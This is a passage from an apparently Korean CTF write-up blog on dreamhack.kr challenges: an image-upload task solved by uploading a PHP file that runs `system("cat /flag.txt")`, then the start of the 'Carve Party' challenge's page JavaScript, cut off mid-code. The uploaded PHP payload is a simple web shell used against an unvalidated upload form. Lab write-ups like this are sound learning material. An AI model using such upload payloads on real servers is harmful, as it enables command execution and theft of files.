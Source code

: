 ```php
</body>
</html>
```

문제는 이미지 저장소인데 딱히 이미지 파일에 대한 검증이 없다. 무엇이든 올릴 수 있다는 것이니 뭘로 flag를 얻어볼까?

```php
<?php
	echo system("cat /flag.txt");
?>
```

![image-20220621165255723](../img/image-20220621165255723.png)

사실 `cat flag.txt`로 두 번 전송했다가 왜 안나오지 하고 세번째에 플래그를 얻었다 ㅋㅋㅋㅋㅋ

<br><br><br>

-----

# > dreamhack.kr: Carve Party

## writeup

![image-20220621192238173](../img/image-20220621192238173.png)

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.5.1/jquery.min.js" integrity="sha512-bLT0Qm9VnAYZDflyKcBaQ2gg0hSYNQrJ8RilYldYQ1FxQYoCLtUjuuRuZo+fjqhx/qtq/1itJ0C2ejDxltZVFg==" crossorigin="anonymous"></script>
<script>
var pumpkin = [ 124, 112, 59, 73, 167, 100, 105, 75, 59, 23, 16, 181, 165, 104, 43, 49, 118, 71, 112, 169, 43, 53 ];
var counter = 0;
var pie = 1;

function make() {
  if (0 < counter && counter <= 1000) {
    $('#jack-nose').css('opacity', (counter) + '%');
  }
  else if (1000 < counter && counter <= 3000) {
    $('#jack-left').css('opacity', (counter - 1000) / 2 + '%');
  }
  else if (3000 < counter && counter <= 5000) {
    $('#jack-right').css('opacity', (counter - 3000) / 2 + '%');
  }
  else if (5000 < counter && counter <= 10000) {
    $('#jack-mouth').css('opacity', (counter - 5000) / 5 + '%');
  }

  if (10000 < counter) {
    $('#jack-target').addClass('tada');
    var ctx = document.querySelector("canvas").getContext("2d"),
    dashLen = 220, dashOffset = dashLen, speed = 20,
    txt = pumpkin.map(x=>String.fromCharCode(x)).join(''), x = 30, i = 0;

    ctx.font = "50px Comic Sans MS, cursive, TSCu_Comic, sans-serif"; 
    ctx.lineWidth = 5; ctx.lineJoin = "round"; ctx.globalAlpha = 2/3;
    ctx.strokeStyle = ctx.fillStyle = "#1f2f90";

    (function loop() {
      ctx.clearRect(x, 0, 60, 150);
      ctx.setLineDash([dashLen - dashOffset, dashOffset - speed]); // create a long dash mask
      dashOffset -= speed;                                         // reduce dash length
```